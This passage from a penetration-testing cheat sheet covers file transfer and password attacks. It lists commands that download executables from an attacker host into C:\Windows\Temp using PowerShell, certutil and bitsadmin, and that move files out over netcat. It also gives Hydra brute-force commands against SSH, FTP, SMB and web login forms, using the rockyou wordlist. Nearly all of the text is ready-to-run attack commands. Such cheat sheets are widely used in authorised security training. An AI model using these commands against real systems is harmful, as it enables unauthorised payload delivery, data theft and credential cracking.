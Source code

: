 ### File Transfer Techniques

#### Linux File Transfers
```bash
# Using wget
wget http://192.168.1.5:8000/file.txt

# Using curl
curl http://192.168.1.5:8000/file.txt -o file.txt

# Using netcat (receiver)
nc -lvp 1234 > file.txt

# Using netcat (sender)
nc 192.168.1.10 1234 < file.txt

# Using Python HTTP server (sender)
python -m SimpleHTTPServer 8000
python3 -m http.server 8000
```

#### Windows File Transfers
```powershell
# Using PowerShell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.5:8000/file.exe', 'C:\Windows\Temp\file.exe')"

# Using certutil
certutil -urlcache -split -f "http://192.168.1.5:8000/file.exe" file.exe

# Using bitsadmin
bitsadmin /transfer mydownloadjob /download /priority normal http://192.168.1.5:8000/file.exe C:\Windows\Temp\file.exe

# Using SMB (set up SMB share on Kali first)
copy \\192.168.1.5\share\file.exe C:\Windows\Temp\file.exe
```

## Password Attacks

### Hydra

Hydra is a parallelized login cracker that supports numerous protocols.

```bash
# SSH brute force
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10

# FTP brute force
hydra -L users.txt -P passwords.txt ftp://192.168.1.10

# HTTP POST form
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# SMB brute force
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 192.168.1.10 smb
```
